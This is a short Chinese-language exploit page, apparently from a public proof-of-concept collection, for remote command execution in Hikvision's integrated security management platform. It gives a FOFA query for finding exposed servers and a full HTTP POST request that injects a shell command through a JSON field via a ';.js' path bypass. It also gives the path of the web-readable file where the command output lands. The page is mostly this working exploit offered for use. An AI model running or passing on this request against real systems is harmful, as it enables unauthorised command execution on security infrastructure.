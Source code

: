 ## 海康威视综合安防系统detection接口存在RCE漏洞

## fofa

```
app="HIKVISION-综合安防管理平台" ||app="HIKVISION-iSecure-Center"
```

## poc

```
POST /center/api/installation/detection;.js HTTP/1.1
Host: xx.xx.xx.xx
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="105", "Not)A;Brand";v="8", "Chromium";v="105"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=UTF-8
Content-Length: 154

{"type":"environment",
"operate":"",
"machines":{"id":"$(find /|grep chunk-common.34c924fe.js|while read f;do sh -c id >$(dirname $f)/123.js;done)"}}
```

写入文件路径
`http://xx.xx.xx.xx/portal/ui/static/js/123.js`

<img width="1302" alt="image-20240307102647932" src="https://github.com/wy876/POC/assets/139549762/476f1181-d7e0-4485-862c-856a64317681">
